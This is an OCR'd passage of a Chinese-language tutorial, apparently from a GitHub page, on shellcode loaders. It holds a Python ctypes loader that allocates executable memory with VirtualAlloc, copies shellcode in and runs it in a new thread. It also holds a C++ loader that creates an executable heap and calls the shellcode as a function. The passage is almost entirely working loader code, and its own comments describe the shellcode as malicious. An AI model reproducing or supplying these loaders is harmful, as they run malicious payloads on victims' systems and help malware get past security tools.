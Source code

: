 ```python
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```



# 4.通过堆加载

这段代码首先创建了一个具有执行权限的堆，然后在堆中分配内存并将shellcode复制到内存中。最后，代码通过直接调用存储在内存中的shellcode来执行它

```cpp
#include <Windows.h>

// 定义 shellcode（恶意代码）
unsigned char shellcode[] = "";

// 主函数
void main() {
    // 创建一个具有执行权限的堆，以存储shellcode
    HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

    // 在创建的堆中分配一块内存，并将其地址赋给buffer
    char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

    // 将shellcode复制到buffer指向的内存中
    memcpy(buffer, shellcode, sizeof(shellcode));

    // 下面是另一种创建线程的方法，这里被注释掉了
    // 创建一个新线程并执行buffer指向的内存中的shellcode
    // HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);

    // 等待新线程执行完毕
    // WaitForSingleObject(hThread, INFINITE);

    // 将buffer指向的内存地址强制转换为一个函数指针，并调用该函数，执行shellcode
    ((void(*)(void)) buffer)();
}

```
